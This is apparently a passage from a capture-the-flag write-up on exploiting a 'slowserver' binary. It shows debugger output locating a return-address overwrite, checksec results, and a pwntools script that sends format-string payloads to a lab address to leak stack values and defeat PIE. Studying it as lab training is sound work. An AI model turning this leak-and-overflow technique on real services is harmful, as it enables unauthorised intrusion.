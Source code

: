 ```py
r.close()
```
{: file="solve.py" }

As we can see by running the program and checking the registers, we are able to overwrite the `RBP` at offset `16` and the return address for the function at offset `24`.

```console
gef➤  pattern search $rbp
[+] Searching for '6361616161616161'/'6161616161616163' with period=8
[+] Found at offset 16 (little-endian search) likely
```

### Leaking Binary Address

Now that we are able to take control of the flow of the process, we need to figure out how to use it to gain a shell. We don't have access to the `libc` used by the binary, so even if we leaked addresses from it, they wouldn't be very useful. However, we do have the binary. But upon checking the security properties of the binary, we see that `PIE` is enabled. This means that the binary will be loaded at a different address each time it is run.

```console
$ checksec slowserver
[*] './slowserver'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

So, first we can write a simple **Python** script to fuzz the process to find a leaked address from the binary, which we can use to calculate the address where the binary is loaded, as such:


```py
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level="error")

# Iterate through format string positions to leak stack values
for i in range(1, 180, 3):
    r1 = remote("10.10.62.203", 5555)
    r2 = remote("127.0.0.1", 5555)

    # Construct the format string payload
    pay1 = f"DEBUG %{i}$p.%{i+1}$p.%{i+2}$p \n".encode()

    # Send the payload to both targets
    r1.sendline(pay1)
    r2.sendline(pay1)

    # Print the format string being tested
    print(f"%{i}$p.%{i+1}$p.%{i+2}$p")

    # Receive and print responses
    resp = r1.recv()
    print(resp)
    resp2 = r2.recv()
    print(resp2)

    # Close connections
    r1.close()
    r2.close()
```